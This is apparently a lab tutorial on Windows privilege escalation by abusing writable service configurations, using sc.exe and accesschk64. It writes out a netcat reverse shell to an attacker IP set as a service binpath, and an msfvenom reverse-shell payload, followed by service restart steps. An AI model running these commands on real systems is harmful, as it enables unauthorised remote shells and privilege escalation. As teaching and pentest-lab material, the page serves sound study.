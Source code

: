 We can view the configuration of a service with the `sc.exe' command.
```powershell
sc.exe qc SimpleService
```

Use the `accesschk64` program to check if we have privileges over that process.
- https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
```powershell
.\accesschk64.exe /accepteula -uwcqv SimpleService
```
Where the flags mean:
- `-u` - show permission for a user/group
- `-w` - show owner's access rights on the object
- `-c` - show effective access right, taking into account any deny permissions
- `-q` - supresses any other output
- `-v` - shows the names of all objects

We can modify the `binpath` as follows
```powershell
sc.exe config SimpleService binpath="C:\Users\Quickemu\Downloads\simpleService.exe"
```

```powershell
sc.exe config SimpleService binpath="C:\Users\Quickemu\Downloads\nc64.exe 192.168.122.1 4321 -e C:\Windows\system32\cmd.exe"
```

A typical attack could then be:

1. We create a malicious executable that triggers a reverse shell and we upload it to the victim machine
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=7777 -f exe -o malicious.exe
```

2. We change the executable path of a given service
```powershell
sc.exe config SimpleService binpath="C:\Users\Quickemu\Downloads\malicious.exe"
```

3. We stop and start the service
```powershell
sc.exe stop SimpleService
```

```powershell
sc.exe start SimpleService
```
